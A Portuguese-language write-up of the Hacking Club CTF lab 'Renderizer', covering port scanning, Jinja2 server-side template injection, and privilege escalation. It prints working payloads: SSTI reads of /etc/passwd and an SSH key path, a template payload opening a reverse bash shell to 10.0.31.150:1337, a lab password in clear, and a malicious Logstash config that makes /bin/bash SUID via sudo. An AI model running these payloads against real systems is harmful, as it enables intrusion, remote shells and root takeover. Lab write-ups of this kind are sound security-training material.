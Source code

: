 ```yaml
---
title: 'Renderizer Writeup'
date: '2024-07-13'
tags: ['SSTI','RCE']
draft: false
summary: 'Writeup do CTF Reader da Hacking Club.'
images: ['/static/images/renderizer-writeup-images/1.png']
authors: ['default']
---
```

![Writeup-Renderizer 1](/static/images/renderizer-writeup-images/1.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Renderizer

### IP: 172.16.14.128

## Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f7:37:6a:01:16:84:08:ea:92:19:b0:b3:ba:22:71:34 (ECDSA)
|_  256 59:00:f0:d6:c4:d4:f3:91:85:8f:1a:d2:1d:29:87:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Renderizer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Somente as portas 22(SSH) e 80 (HTTP) estão abertas.

---

![Writeup-Renderizer 2](/static/images/renderizer-writeup-images/2.png)

`sudo vim /etc/hosts`
![Writeup-Renderizer 3](/static/images/renderizer-writeup-images/3.png)
### [http://renderizer.hc](http://renderizer.hc)


![Writeup-Renderizer 4](/static/images/renderizer-writeup-images/4.png)
![Writeup-Renderizer 5](/static/images/renderizer-writeup-images/5.png)

Ele diz que é um jinja2 , a gente pode deduzir que se trata de um SSTI (Server-Side Tempalte Injection), pra testar eu mandei um `{{7*7}}.`

![Writeup-Renderizer 6](/static/images/renderizer-writeup-images/6.png)

Depois de fazer algumas pesquisas , eu achei uma payload pra leitura de arquivos que funcionou.

`{{ get_flashed_messages.globals.builtins.open("/etc/passwd").read() }}`

![Writeup-Renderizer 7](/static/images/renderizer-writeup-images/7.png)

john:x:1001:1001::/home/john:/bin/bash e ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash são os usuários.

Tentei utilizar o mesmo pra pegar a chave ssh , mas não deu:

`{{ get_flashed_messages.globals.builtins.open("/home/john/.ssh/id_rsa").read() }}`

![Writeup-Renderizer 8](/static/images/renderizer-writeup-images/8.png)

`{{ "teste".class.mro[1].subclasses() }}` tentei usar essa payload pra verificar as subclasses presentes , mas tava dando um erro acredito que o servidor tenha algum tipo de proteção, então eu fui atrás de outro jeito de verificar.

E consegui assim:

```
{% for subclass in ''.__class__.__mro__[1].__subclasses__() %}
    <h2>{{ subclass.__name__ }}</h2>
    <ul>
    {% for attr in subclass.__dict__.keys() %}
        <li>{{ attr }}</li>
    {% endfor %}
    </ul>
{% endfor %}
```

![Writeup-Renderizer 9](/static/images/renderizer-writeup-images/9.png)

Agora é achar a posição do array do Popen pra ganhar um RCE.

## Initial Access

Payload do mano vert16x pra achar a posição do array do Popen automaticamente nos possibilitando um RCE.

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("/bin/bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'").read().zfill(417)}}{%endif%}{% endfor %}
```

![Writeup-Renderizer 10](/static/images/renderizer-writeup-images/10.png)
## Privillege Escalation

`cat /etc/crontab`

![Writeup-Renderizer 11](/static/images/renderizer-writeup-images/11.png)
Eu pensei incialmente em simplesmente alterar a pasta webapp com os comandos abaixo mas não funcionou, por alguma razão a cron não executava.

```
rm -rf webapp
echo '#!/bin/bash' > /home/john/webapp
echo 'chmod u+s /bin/bash' >> /home/john/webapp
chmod +x webapp
```

Então eu fui ver a pasta que estava sendo feito o backup `/var/backups`

![Writeup-Renderizer 12](/static/images/renderizer-writeup-images/12.png)

Se eu tentar dar o `unzip webapp-03-01-2024.zip` ele da permission denied

![Writeup-Renderizer 13](/static/images/renderizer-writeup-images/13.png)

Então a gente precisa copiar esse `webapp-03-01-2024.zip` pra pasta tmp 
`cp webapp-03-01-2024.zip /tmp`

Na pasta tmp basta a gente unzipar o arquivo:

`unzip webapp-03-01-2024.zip`

![Writeup-Renderizer 14](/static/images/renderizer-writeup-images/14.png)

Depois de unzipar a pasta webapp tem uma variavel de ambiente `.env` que por sinal é a mesma senha do usuario que estamos logado `john` .

![Writeup-Renderizer 15](/static/images/renderizer-writeup-images/15.png)

`john:bwsTuCtSYue7G4`

`sudo -l`
![Writeup-Renderizer 16](/static/images/renderizer-writeup-images/16.png)

Pra explorar o logstash a gente precisa criar um arquivo `.yaml` malicioso.

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash)

![Writeup-Renderizer 17](/static/images/renderizer-writeup-images/17.png)

```
input {
  exec {
    command => "chmod u+s /bin/bash"
    interval => 120
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}

```

depois é so rodar o comando , `sudo /root/logstash/bin/logstash -f /tmp/webapp/teste.yaml`

Demora alguns segundos pra rodar:

![Writeup-Renderizer 18](/static/images/renderizer-writeup-images/18.png)

E o /bin/bash vai virar SUID após a execução do logstash.

![Writeup-Renderizer 19](/static/images/renderizer-writeup-images/19.png)
![Writeup-Renderizer 20](/static/images/renderizer-writeup-images/20.png)
## Proof

![Writeup-Renderizer 21](/static/images/renderizer-writeup-images/21.png)

